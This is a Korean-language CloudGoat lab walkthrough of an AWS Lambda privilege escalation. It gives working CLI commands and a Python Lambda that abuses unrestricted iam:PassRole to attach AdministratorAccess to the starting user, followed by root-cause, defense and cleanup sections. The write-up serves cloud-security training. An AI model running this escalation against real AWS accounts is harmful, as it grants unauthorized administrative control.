

# 07. Lambda PrivEsc

- 난이도: Moderate
- 핵심: Lambda 관리 권한과 제한 없는 `iam:PassRole`을 결합해 높은 권한의 Code를 실행합니다.

## Attack Path



## 1. 두 Role 구분

```text
Lambda Manager Role
  Trust: 시작 User
  Permission: lambda:* + iam:PassRole

Debug Role
  Trust: lambda.amazonaws.com
  Permission: AdministratorAccess
```

시작 User는 Debug Role을 직접 `AssumeRole`할 수 없습니다. 하지만 Lambda Manager가 Debug Role을 Function Execution Role로 전달할 수 있습니다.

`AssumeRole`과 `PassRole`의 차이:

```text
sts:AssumeRole → 내가 Role Session을 사용
iam:PassRole   → AWS Service가 해당 Role로 실행되도록 전달
```

## 2. Lambda Manager Role 사용

```bash
aws configure set role_arn <LAMBDA_MANAGER_ROLE_ARN> \
  --profile <MANAGER_PROFILE>
aws configure set source_profile <START_PROFILE> \
  --profile <MANAGER_PROFILE>
aws configure set role_session_name cloudgoat-lambda-manager \
  --profile <MANAGER_PROFILE>

aws sts get-caller-identity --profile <MANAGER_PROFILE>
```

## 3. Lab 전용 Function 작성

Function은 Scenario의 시작 User에게 관리자 Policy를 연결합니다. 이름은 실제 Scenario 값으로 바꾸되 Code나 출력에 Credential을 넣지 않습니다.

```python
import boto3

TARGET_USER = "<SCENARIO_USER>"
ADMIN_POLICY = "arn:aws:iam::aws:policy/AdministratorAccess"


def lambda_handler(event, context):
    boto3.client("iam").attach_user_policy(
        UserName=TARGET_USER,
        PolicyArn=ADMIN_POLICY,
    )
    return {"result": "policy attached"}
```

ZIP을 만들고 Debug Role을 Execution Role로 지정해 배포합니다.

```bash
zip lambda-payload.zip lambda_function.py

aws lambda create-function \
  --function-name <LAB_FUNCTION_NAME> \
  --runtime <SUPPORTED_PYTHON_RUNTIME> \
  --role <DEBUG_ROLE_ARN> \
  --handler lambda_function.lambda_handler \
  --zip-file fileb://lambda-payload.zip \
  --profile <MANAGER_PROFILE> \
  --region <REGION>
```

## 4. 호출과 검증

```bash
aws lambda invoke \
  --function-name <LAB_FUNCTION_NAME> \
  --payload '{}' \
  --cli-binary-format raw-in-base64-out \
  --profile <MANAGER_PROFILE> \
  --region <REGION> \
  lambda-response.json

aws iam list-attached-user-policies \
  --user-name <SCENARIO_USER> \
  --profile <START_PROFILE>
```

Function 생성자는 Lambda Manager지만, 실행 중 AWS API를 호출하는 Identity는 Debug Role입니다.

## Root Cause

```text
lambda:* + iam:PassRole(Resource="*") + Privileged Execution Role
  = Privileged Arbitrary Code Execution
```

각 Action은 정상적으로 허용됐지만 조합 결과가 관리자 권한 상승이 됐습니다.

## Defense

- `iam:PassRole` Resource를 Function별 전용 Role로 제한합니다.
- `iam:PassedToService` Condition으로 전달 가능한 Service를 제한합니다.
- 배포 Role이 더 높은 권한의 Execution Role을 전달하지 못하게 권한 계층을 둡니다.
- `CreateFunction`, `UpdateFunctionCode`, `PassRole`의 연속 행위를 탐지합니다.

## Cleanup

CloudGoat가 만들지 않은 Function은 Terraform State에 없으므로 직접 제거한 뒤 Scenario를 삭제합니다.

```bash
aws lambda delete-function \
  --function-name <LAB_FUNCTION_NAME> \
  --profile <MANAGER_PROFILE> \
  --region <REGION>

aws iam detach-user-policy \
  --user-name <SCENARIO_USER> \
  --policy-arn arn:aws:iam::aws:policy/AdministratorAccess \
  --profile <START_PROFILE>
```
